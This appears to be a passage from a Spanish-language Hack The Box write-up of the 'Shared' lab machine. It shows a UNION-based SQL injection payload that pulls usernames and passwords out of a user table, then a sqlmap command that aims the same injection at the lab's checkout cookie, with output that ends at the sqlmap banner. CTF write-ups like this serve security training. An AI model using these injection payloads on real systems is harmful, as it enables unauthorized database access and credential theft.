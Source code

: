 ![](/assets/images/htb-writeup-shared/web20.png)

Ahora por ultimo vamos a ver el contenido de las columnas **username y password** con un **group_concat** `union select 1,group_concat(username,0x3a,password),3 from user-- -`

![](/assets/images/htb-writeup-shared/web21.png)

## sqlmap

También pudimos haberlo hecho con esta herramienta como ya sabemos como ya sabemos el numero de columnas y mas podemos decirle que lo haga pasandole los parámetros

```bash
❯ sqlmap -u "https://checkout.shared.htb/" --cookie='custom_cart={"*":"1"}' --technique U --union-cols 3 --batch
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.6.12#stable}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:49:05 /2023-06-13/

```